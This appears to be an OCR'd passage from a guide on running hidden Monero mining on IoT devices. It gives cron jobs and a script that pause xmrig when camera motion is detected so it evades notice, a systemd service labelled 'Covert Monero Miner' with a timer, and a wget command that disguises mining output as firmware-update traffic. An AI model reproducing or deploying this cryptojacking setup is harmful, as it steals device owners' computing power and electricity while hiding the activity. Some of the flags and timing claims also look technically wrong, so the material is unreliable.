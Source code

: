 - **Security Cameras**: Motion sensors can trigger mining pauses during active surveillance. A cron job paired with motion detection logs (e.g., `motioneye` logs) can disable mining when motion is detected:  
  ```bash  
  # Cron job to check motion activity every 5 minutes  
  */5 * * * * /path/to/motion_check.sh  
  ```  
  The script (`motion_check.sh`) might include:  
  ```bash  
  if grep -q "Motion detected" /var/log/motion/motion.log; then  
      killall -STOP xmrig  
  else  
      killall -CONT xmrig  
  fi  
  ```  

### **Task Scheduling and Low-Activity Windows**  
**Systemd Timers** and **cron jobs** enable mining during periods of minimal device usage:  
- **Thermostats**: Mining activates during HVAC inactivity (e.g., nighttime). A systemd service file (`miner.service`):  
  ```ini  
  [Unit]  
  Description=Covert Monero Miner  
  After=network.target  

  [Service]  
  ExecStart=/usr/bin/xmrig --config /etc/xmrig.conf  
  Restart=always  

  [Install]  
  WantedBy=multi-user.target  
  ```  
  Paired with a timer (`miner.timer`):  
  ```ini  
  [Timer]  
  OnCalendar=*-*-* 00:00/8  
  Persistent=true  

  [Install]  
  WantedBy=timers.target  
  ```  
  This runs mining every 8 hours for 1 hour, aligning with low HVAC activity.  

- **Smart Plugs**: Mining executes during off-peak power usage (e.g.,深夜). A cron job:  
  ```bash  
  0 2 * * * /usr/bin/xmrig --threads=1 --max-threads-per-cpu=1  
  ```  

### **Data Stream Obfuscation**  
Mining traffic can be embedded within legitimate sensor data streams:  
- **Firmware Update Channels**: Hash computations are transmitted as part of routine firmware update requests. For example, a modified `wget` command in a thermostat’s update script:  
  ```bash  
  # Modified firmware update script  
  wget --post-data "$(xmrig --json)" https://legitimate-firmware.com/update  
  ```  
  This masks mining payloads as telemetry data.  
